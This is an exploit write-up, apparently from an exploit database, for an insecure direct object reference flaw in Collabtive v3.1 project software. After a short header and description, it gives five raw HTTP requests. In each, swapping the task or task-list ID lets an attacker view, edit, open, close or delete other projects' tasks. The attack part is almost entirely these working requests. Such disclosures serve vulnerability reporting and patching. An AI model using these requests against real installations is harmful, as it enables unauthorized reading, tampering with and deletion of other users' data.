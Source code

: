 # Exploit Title: Collabtive v3.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://github.com/philippK-de/Collabtive
## Tested on: Debian Linux, Apache, Mysql
## Vendor: philippK-de
## Version: v3.1
## Exploit Description:
## Collabtive v3.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to view/update/close/open/delete task that belongs to other project(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
GET /managetask.php?action=showtask&tid=1(CHANGE HERE)&id=1 HTTP/1.1
```

```
POST /managetask.php?action=edit&tid=1(CHANGE HERE)&id=1 HTTP/1.1
...

title=task1&text=t1&start=21.12.2023&end=23.12.2023&tasklist=1&assigned%5B%5D=2
```

```
GET /managetask.php?action=open&tid=1(CHANGE HERE)&id=1 HTTP/1.1
```

```
GET /managetask.php?action=close&tid=1(CHANGE HERE)&id=1 HTTP/1.1
```

```
GET /managetasklist.php?action=del&tlid=1(CHANGE HERE)&id=1 HTTP/1.1
```